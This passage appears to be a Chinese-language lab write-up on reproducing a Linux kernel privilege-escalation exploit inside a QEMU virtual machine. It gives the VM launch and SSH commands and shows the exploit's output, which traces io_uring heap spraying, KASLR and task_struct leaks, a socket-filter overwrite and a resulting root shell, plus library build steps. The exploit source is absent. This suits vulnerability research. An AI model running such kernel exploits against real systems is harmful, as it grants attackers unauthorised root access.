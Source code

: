 **vm启动脚本**：

```bash
$ qemu-system-x86_64  \
-m 2G  \
-smp 2  \
-kernel ./bzImage    \
-append "console=ttyS0 root=/dev/sda earlyprintk=serial net.ifnames=0"     \
-drive file=./stretch.img,format=raw \
-net user,host=10.0.2.10,hostfwd=tcp:127.0.0.1:10021-:22 \
-net nic,model=e1000 \
-nographic  \
-pidfile vm.pid \
2>&1 | tee vm.log
```

**ssh连接与测试**：这样就能以普通用户的身份登录进去，然后运行exploit，可能需要尝试3-4次才能利用成功。

```bash
$ ssh -p 10021 hi@localhost             # password: lol
$ ./exploit
[+] set/getxattr file created
[+] bpf program loaded created
[+] FUSE maps created
[+] opened /proc/self/maps
[+] io_uring initialized
[+] spraying kmalloc-32 cache with io_buffer structs!!
[!] vuln trigger #1 for task_struct leak
[+] task_struct: ffff90740554c4c0
[!] vuln trigger #2 for KASLR leak 
[!] single_next: ffffffffb2064520
[!] vuln trigger #3 for cache ptr leak
[+] fake bpf_prog: ffff9074056aacb0
[!] vuln trigger #4 to overwrite socket filter
[+] it worked! have a r00t shell :)
$ scp -P 10021 ./exploit hi@localhost:/home/hi 		# 传文件
$ scp -P 10021 hi@localhost:/home/hi/trace.txt ./ 	# 下载文件
```

[liburing 安装](https://www.livelu.com/201908360.html)  [libfuse安装](https://www.jianshu.com/p/040bb60aa468)

```bash
# 安装 liburing   生成 liburing.a / liburing.so.2.2
$ make
$ sudo make install
# 安装 libfuse (我改编了exp, 本例中不需要安装 libfuse, 只需要采用离线的 libfuse3.a 库和相应头文件即可)
$ sudo apt-get install meson
$ mkdir build; cd build
$ meson ..
$ ninja
$ sudo python3 -m pip install pytest
$ sudo python3 -m pytest test/
$ sudo ninja install
```
